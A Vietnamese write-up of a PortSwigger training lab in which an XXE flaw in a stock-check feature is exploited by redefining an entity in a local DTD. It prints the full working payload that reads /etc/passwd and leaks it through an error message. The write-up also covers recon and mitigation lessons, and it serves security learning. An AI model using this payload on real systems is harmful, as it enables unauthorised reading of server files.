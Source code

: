 # Write-up: Exploiting XXE to retrieve data by repurposing a local DTD

### Tổng quan
Khai thác lỗ hổng XML External Entity (XXE) trong chức năng kiểm tra kho hàng (check stock), sử dụng kỹ thuật tái định nghĩa entity trong một DTD cục bộ có sẵn trên server (`file:///usr/share/yelp/dtd/docbookx.dtd`) để đọc file `/etc/passwd`, kích hoạt lỗi để hiển thị nội dung file, và hoàn thành lab.

### Mục tiêu
- Sử dụng XXE với local DTD để truy xuất nội dung file /etc/passwd và kích hoạt lỗi chứa dữ liệu mục tiêu.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng check stock trên giao diện web với một sản phẩm bất kỳ 
- Trong Burp Suite Proxy, bắt được yêu cầu:
    ![stock](./images/1_check-stock.png)
    - **Quan sát**: Yêu cầu gửi dữ liệu XML, gợi ý khả năng tồn tại lỗ hổng XXE, nhưng server không hiển thị kết quả trực tiếp (Blind XXE):

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `POST /product/stock` tới Burp Repeater, sử dụng kỹ thuật XXE với local DTD để đọc file `/etc/passwd`:
    ```xml
    <!DOCTYPE message [
        <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
        <!ENTITY % ISOamso '
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexisten/&#x25;file;&#x27;>"
            >
            &#x25;eval;
            &#x25;error;
        '>
        %local_dtd;
    ]>
    ```
- **Giải thích DOCTYPE**:
    - `<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`: Tham chiếu tới file DTD cục bộ trên server.
    - `<!ENTITY % ISOamso '...'>`: Tái định nghĩa entity `ISOamso` (thường có trong docbookx.dtd) để chèn logic XXE:
        - `<!ENTITY % file SYSTEM "file:///etc/passwd">`: Định nghĩa entity file để đọc nội dung `/etc/passwd`
        - `<!ENTITY % eval "...">`: Định nghĩa entity `eval` để tạo một entity `error` chứa tham chiếu tới file không tồn tại (`file:///nonexistent/%file;`), kích hoạt lỗi hiển thị nội dung `%file` (tức `/etc/passwd`)
        - `%eval; %error;`: Kích hoạt logic để server xử lý và trả về lỗi.

- **Phản hồi**: Server trả về thông báo lỗi chứa nội dung file `/etc/passwd`: 
    ![etc](./images/2_dtd.png)
    - **Giải thích**: Lỗ hổng XXE cho phép tái định nghĩa entity trong DTD cục bộ, đọc file `/etc/passwd` và kích hoạt lỗi để hiển thị dữ liệu do server không vô hiệu hóa xử lý external entities.

- Kiểm tra trạng thái lab:
    ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XXE bằng cách tái định nghĩa entity trong DTD cục bộ để truy xuất dữ liệu nhạy cảm và kích hoạt lỗi hiển thị dữ liệu.
- Nhận thức tầm quan trọng của việc vô hiệu hóa xử lý external entities và kiểm tra chặt chẽ DTD trong XML parser để ngăn chặn XXE.

### Tài liệu tham khảo
- PortSwigger: XML External Entity (XXE) Injection
- PortSwigger: Blind XXE vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác XXE bằng kỹ thuật tái định nghĩa DTD cục bộ, truy xuất file nội bộ, và kích hoạt lỗi để hiển thị dữ liệu. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*